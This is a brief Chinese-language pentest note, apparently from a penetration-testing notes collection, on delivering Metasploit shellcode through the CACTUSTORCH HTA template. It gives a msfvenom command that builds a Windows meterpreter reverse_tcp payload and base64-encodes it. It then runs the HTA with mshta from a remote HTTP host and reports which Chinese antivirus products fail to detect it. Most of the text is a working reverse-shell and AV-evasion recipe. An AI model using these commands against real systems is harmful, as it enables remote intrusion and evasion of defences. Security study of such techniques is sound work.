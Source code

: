 	https://github.com/mdsecactivebreach/CACTUSTORCH/blob/master/CACTUSTORCH.hta
	生成
	>msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.0.108 LPORT=12138 -f raw -o /var/www/html/1.bin
	>cat 1.bin |base64 -w 0
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/75.png)

	编码后的内容复制到
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/76.png)

	执行
	>mshta http://192.168.0.106:1222/1.hta
	360执行检测出来，静态动态无法检测、火绒无法检测